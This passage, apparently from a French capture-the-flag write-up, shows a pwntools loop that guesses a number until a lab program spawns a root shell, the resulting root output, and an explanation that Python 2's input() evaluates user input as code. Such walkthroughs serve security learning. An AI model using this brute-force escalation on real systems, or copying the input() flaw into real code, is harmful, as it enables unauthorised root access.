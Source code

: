 ```python
    p.sendline(b"50")                                                                                                  
    p.sendline(b"id")                                                                                                  
    buff = p.recvline_contains((b"Better Luck", b"root"))                                                              
    if b"Better Luck next time" in buff:                                                                               
        continue                                                                                                       
    else:                                                                                                              
        print(buff)                                                                                                    
        p.interactive()                                                                                                
        break                                                                                                          
ssh_sess.close()
```

Ca tombe assez rapidement :

```bash
$ python brute_number.py 
b'Enter your number: # uid=0(root) gid=0(root) groups=0(root)'
# pwd
/home/sam
# cd /root
# ls
lago  proof.sh
```

L'exécution du `proof.sh` affiche le flag final.

## Kansas City Shuffle

Reprennons le code Python du lago vu plus tôt :

```python
    num = randint(1, 101)
    print 'Choose a number between 1 to 100: '
    s = input('Enter your number: ')
    if s == num:
        system('/bin/sh')
```

`num` est un entier car généré par `random.randint`. `s` devrait quand à lui être une chaine de caractères car c'est le résultat de `input()` par conséquent la comparaison de `s` et `num` devrait toujours échouer (on n'est pas sur du Javascript !)

On est là sur une particularité de Python 2 : la fonction `input()` évalue ce qui est lu comme du code Python (et donc si on saisi un chiffre on obtient un chiffre). Pour être safe il faut utiliser `raw_input()`.
